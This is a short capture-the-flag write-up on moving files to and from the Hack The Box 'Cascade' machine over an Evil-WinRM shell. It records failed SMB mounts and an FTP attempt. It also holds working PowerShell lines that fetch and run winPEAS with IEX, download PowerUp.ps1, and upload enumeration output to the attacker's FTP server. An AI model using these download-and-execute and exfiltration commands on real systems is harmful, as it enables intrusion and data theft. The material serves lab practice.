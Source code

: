 # Transferring files to/from Cascade

## Unable to mount share

After running the impacket-smbserver module I found I couldn't mount the share.

```text
*Evil-WinRM* PS C:\Users\s.smith\Desktop> New-PSDrive -Name X -Root \\10.10.14.78\kali -Credential $Cred -PSProvider FileSystem
A specified logon session does not exist. It may already have been terminated
At line:1 char:1
+ New-PSDrive -Name X -Root \\10.10.14.78\kali -Credential $Cred -PSPro ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (X:PSDriveInfo) [New-PSDrive], Win32Exception
    + FullyQualifiedErrorId : CouldNotMapNetworkDrive,Microsoft.PowerShell.Commands.NewPSDriveCommand

*Evil-WinRM* PS C:\Users\s.smith\Desktop> net use \\10.10.14.78\kali /user:kali kali
net.exe : System error 1312 has occurred.
    + CategoryInfo          : NotSpecified: (System error 1312 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

A specified logon session does not exist. It may already have been terminated.
```

If I dropped the username and password requirement for accessing the share ie. `impacket-smbserver -smb2support kali .` I still couldn't access the share

```shell
*Evil-WinRM* PS C:\Users\s.smith\Desktop> net use X: \\10.10.14.78\kali
net.exe : System error 1240 has occurred.
    + CategoryInfo          : NotSpecified: (System error 1240 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

The account is not authorized to log in from this station.

*Evil-WinRM* PS C:\Users\s.smith\Desktop> net use \\10.10.14.78\kali
net.exe : System error 1240 has occurred.
    + CategoryInfo          : NotSpecified: (System error 1240 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

The account is not authorized to log in from this station.
```

## Download files to target

Consequently I could download winpeas.txt to target only with these two commands

```shell
IEX(New-Object net.WebClient).downloadstring("http://10.10.14.78/winPEASany.exe")
Invoke-WebRequest -Uri "http://10.10.14.78/PowerUp.ps1" -OutFile PowerUp.ps1
```

## Upload files to Kali via FTP powershell

I tried the FTP method to upload files as [per here](https://ivanitlearning.wordpress.com/2020/07/05/rce-pe-experiments-with-server-2019-and-defender/) but it didn't work.

```shell
*Evil-WinRM* PS C:\Users\s.smith\Downloads> ftp.exe -v -n -s:ftp.txt
Connected to 10.10.14.78.
open 10.10.14.78
220 pyftpdlib 1.5.4 ready.
USER anonymous
331 Username ok, send password.

230 Login successful.
binary
200 Type set to: Binary.

PUT winpeas.txt
421 Active data channel timed out.
quit
221 Goodbye.
```

possibly because the Windows FTP client [doesn't support](https://stackoverflow.com/questions/18643542/how-to-use-passive-ftp-mode-in-windows-command-prompt) passive mode. But somehow it worked [with Powershell](https://stackoverflow.com/a/46582183/7908040):

```text
*Evil-WinRM* PS C:\Users\s.smith\Downloads> $client = New-Object System.Net.WebClient
*Evil-WinRM* PS C:\Users\s.smith\Downloads> $client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "password")
*Evil-WinRM* PS C:\Users\s.smith\Downloads> $client.UploadFile("ftp://10.10.14.78/winpeas.txt", "C:\Users\s.smith\Downloads\winpeas.txt")

root@kali:~/CTF/HTB/Cascade/PE# python3 -m pyftpdlib -p 21 -w
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2020-12-08 01:17:40] >>> starting FTP server on 0.0.0.0:21, pid=10641 <<<
[I 2020-12-08 01:17:40] concurrency model: async
[I 2020-12-08 01:17:40] masquerade (NAT) address: None
[I 2020-12-08 01:17:40] passive ports: None
[I 2020-12-08 01:18:38] 10.10.10.182:49790-[] FTP session opened (connect)
[I 2020-12-08 01:18:38] 10.10.10.182:49790-[anonymous] USER 'anonymous' logged in.
[I 2020-12-08 01:18:38] 10.10.10.182:49790-[anonymous] STOR /root/CTF/HTB/Cascade/PE/winpeas.txt completed=1 bytes=92284 seconds=0.052
```

Install the FTP server with `apt install python3-pyftpdlib` 